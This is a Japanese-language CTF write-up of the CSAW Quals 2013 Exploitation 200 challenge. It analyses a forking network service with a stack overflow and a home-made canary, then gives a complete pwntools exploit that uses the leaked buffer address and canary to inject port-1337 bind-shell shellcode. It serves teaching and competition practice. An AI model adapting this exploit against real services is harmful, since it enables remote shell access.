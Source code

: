```yaml
---
layout: post
alias: "/blog/2016/01/13/csaw-quals-2013-exploit2/"
title: "CSAW Quals CTF 2013: Exploitation 200"
date: 2016-01-13T01:21:13+09:00
tags: [ "ctf", "writeup", "pwn", "csaw-ctf", "shellcode", "port-bind", "buffer-overflow" ]
---
```


## [Exploitation 200](https://github.com/ctfs/write-ups-2013/tree/master/csaw-quals-2013/exploitation/exploit2-200)

>   nc 128.238.66.212 31338  
>   [exploit2]()

与えられるバイナリは`0.0.0.0:31338`にsocketを開くので、これに接続する。
応答の先頭には変な文字が出力されている。

``` sh
$ ./exploit2 &
[2] 9327
$ nc localhost 31338 | xxd
Got a connection from 127.0.0.1 on port 34126
00000000: cc30 c6ff fbb0 4102 5765 6c63 6f6d 6520  .0....A.Welcome 
00000010: 746f 2043 5341 5720 4354 462e 2020 4578  to CSAW CTF.  Ex
00000020: 706c 6f69 7461 7469 6f6e 2032 2077 696c  ploitation 2 wil
00000030: 6c20 6265 2061 206c 6974 746c 6520 6861  l be a little ha
00000040: 7264 6572 2074 6869 7320 7965 6172 2e20  rder this year. 
00000050: 2049 6e73 6572 7420 796f 7572 2065 7870   Insert your exp

00000060: 6c6f 6974 2068 6572 653a 00              loit here:.
```

逆アセンブルして読むと以下が分かる。

-   中でforkしている
-   buffer overflowがある
-   canaryがいる (gccによるものでない、自前実装)
-   出力の先頭4byteはbufferへのpointer
-   次の4byteはcanaryの値

shellに繋がるportを開くshellcodeを投げ込めばよいようだ。

```
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools

context.log_level = 'debug'
p = remote('0.0.0.0', 31338)

buf = u32(p.recv(4))
canary = u32(p.recv(4))

# http://shell-storm.org/shellcode/files/shellcode-882.php
# Shell Bind TCP Shellcode Port 1337
shellcode = "\x6a\x66\x58\x6a\x01\x5b\x31\xf6\x56\x53\x6a\x02\x89\xe1\xcd\x80\x5f\x97\x93\xb0\x66\x56\x66\x68\x05\x39\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x56\x57\x89\xe1\xcd\x80\xb0\x66\x43\x56\x56\x57\x89\xe1\xcd\x80\x59\x59\xb1\x02\x93\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\x89\xca\xcd\x80"

payload = ''
payload += shellcode   # ebp - 0x80c
payload += 'A' * (0x800 - len(shellcode))
payload += p32(canary) # ebp - 0xc
payload += 'A' * 4     # ebp - 0x8, ebx
payload += 'A' * 4     # ebp - 0x4, edi
payload += 'A' * 4     # ebp, ebp
payload += p32(buf)    # ret
payload += 'A' * (0x1000 - len(payload))
p.send(payload)
```
